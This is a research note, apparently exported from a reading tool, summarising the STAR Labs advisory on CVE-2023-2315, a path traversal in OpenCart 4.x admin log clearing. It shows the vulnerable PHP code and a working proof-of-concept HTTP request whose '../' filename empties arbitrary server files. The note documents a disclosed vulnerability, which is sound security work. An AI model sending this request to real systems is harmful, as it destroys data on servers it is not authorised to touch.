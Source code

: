 ```yaml
---
author: STAR Labs
aliases:
  - (CVE-2023-2315) Path Traversal in OpenCart Versions 4.0.0.0 to 4.0.2.2
tags:
  - readwise/articles
  - opencart
  - vulnerability-research/finished
url: https://starlabs.sg/advisories/23/23-2315/
date: 2024-08-20
product: "[[../../Targets/opencart/OpenCart|OpenCart]]"
Category:
  - Web
---
```

# (CVE-2023-2315) Path Traversal in OpenCart Versions 4.0.0.0 to 4.0.2.2

![rw-book-cover](https://starlabs.sg/logo-white.png)

## Highlights


> Path traversal in Opencart versions 4.0.0.0 to 4.0.2.2 allows authenticated backend users to empty any existing file on the server with write permissions.
> [View Highlight](https://read.readwise.io/read/01hbtz770ryfnn3ydpz85a81v7)
> #advisory  

# PoC

*admin\controller\tool\log.php*

```php title:"admin\controller\tool\log.php"
class Log extends \Opencart\System\Engine\Controller {
...
public function clear(): void {
	if (isset($this->request->get['filename'])) {
            $filename = (string)$this->request->get['filename'];
        } else {
            $filename = '';
        }
	...
	$file = DIR_LOGS . $filename;
        if (!is_file($file)) {
            $json['error'] = sprintf($this->language->get('error_file'), $filename);
        }
        if (!$json) {
            $handle = fopen($file, 'w+');
            fclose($handle);
            $json['success'] = $this->language->get('text_success');
        }
        ...
```

The application does not manage  the `filename` field and allows to delete arbitrary files.



```http
GET /opencart-latest/admin/index.php?route=tool/log.clear&user_token=40cc3d40e897751f863b18ea52eaa3e9&filename=../../../../../../../../dev/shm/PoC.txt HTTP/1.1
Host: 127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Referer: http://127.0.0.1/opencart-latest/admin/index.php?route=tool/log&user_token=40cc3d40e897751f863b18ea52eaa3e9
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0
Connection: close


HTTP/1.1 200 OK
```